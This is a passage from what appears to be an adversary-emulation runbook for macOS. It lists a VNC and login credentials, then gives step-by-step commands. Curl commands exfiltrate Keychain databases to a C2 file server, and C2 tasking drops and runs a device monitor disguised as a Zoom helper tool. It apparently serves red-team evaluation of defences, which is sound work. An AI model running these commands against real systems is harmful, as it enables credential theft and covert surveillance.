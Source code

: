     | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |

  * Open a Terminal and execute curl to upload the user's Keychain files to the
  C2's File server:

  ```zsh
  curl -X POST -H "filename:usersKeychain" --data-binary @/Users/ranrok/Library/Keychains/login.keychain-db http://b0ring-t3min4l.kr/uploads
  ```

  * Open a Terminal and execute curl to upload the user's Keychain files to the
  C2's File server:

  ```zsh
  curl -X POST -H "filename:systemKeychain" --data-binary @/Library/Keychains/System.keychain http://b0ring-t3min4l.kr/uploads
  ```

  * Check the C2 server to verify the files were uploaded successfully.

### STRATOFEAR failed/unavailable to monitor devices

#### :biohazard: Tier 1 Procedures

* If FULLHOUSE.DOORED **is** available:

  * Task FULLHOUSE.DOORED to download the device monitor executable (mach-o) to the
  system:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "macho_monitorDevices", "arg":"/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-monitor"}'
    ```

  * Task FULLHOUSE.DOORED to give the device monitor executable permissions to run:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "chmod +x /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-monitor"}'
    ```

  * Task FULLHOUSE.DOORED to execute the device monitor.

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-monitor"}'
    ```

* If FULLHOUSE.DOORED **is not** available:
